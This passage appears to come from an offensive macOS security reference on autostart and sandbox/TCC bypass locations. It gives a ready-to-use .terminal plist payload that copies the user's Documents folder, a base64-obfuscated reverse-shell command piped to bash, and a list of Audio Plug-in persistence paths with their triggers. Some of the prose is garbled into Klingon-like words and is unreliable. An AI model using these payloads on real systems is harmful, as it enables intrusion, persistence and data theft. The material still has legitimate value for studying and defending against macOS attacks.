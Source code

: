 Try it with:
```bash
# Prepare the payload
cat > /tmp/test.terminal << EOF
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>CommandString</key>
<string>mkdir /tmp/Documents; cp -r ~/Documents /tmp/Documents;</string>
<key>ProfileCurrentVersion</key>
<real>2.0600000000000001</real>
<key>RunCommandAsShell</key>
<false/>
<key>name</key>
<string>exploit</string>
<key>type</key>
<string>Window Settings</string>
</dict>
</plist>
EOF

# Trigger it
open /tmp/test.terminal

# Use something like the following for a reverse shell:
<string>echo -n "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYxOw==" | base64 -d | bash;</string>
```
**`.command`** **`.tool`** extensions **tlhIngan** **`*.command`** **`*.tool`** **`Terminal`** **Daq** **`*.command`** **`*.tool`** **`Terminal`** **QaQ**.

{% hint style="danger" %}
**Terminal** **Full Disk Access** **QaQ** **QaQ** (note that the command executed will be visible in a terminal window).
{% endhint %}

### Audio Plugins

Writeup: [https://theevilbit.github.io/beyond/beyond\_0013/](https://theevilbit.github.io/beyond/beyond\_0013/)\
Writeup: [https://posts.specterops.io/audio-unit-plug-ins-896d3434a882](https://posts.specterops.io/audio-unit-plug-ins-896d3434a882)

* Useful to bypass sandbox: [✅](https://emojipedia.org/check-mark-button)
* TCC bypass: [🟠](https://emojipedia.org/large-orange-circle)
* You might get some extra TCC access

#### Location

* **`/Library/Audio/Plug-Ins/HAL`**
* Root required
* **Trigger**: Restart coreaudiod or the computer
* **`/Library/Audio/Plug-ins/Components`**
* Root required
* **Trigger**: Restart coreaudiod or the computer
* **`~/Library/Audio/Plug-ins/Components`**
* **Trigger**: Restart coreaudiod or the computer
* **`/System/Library/Components`**
* Root required
* **Trigger**: Restart coreaudiod or the computer
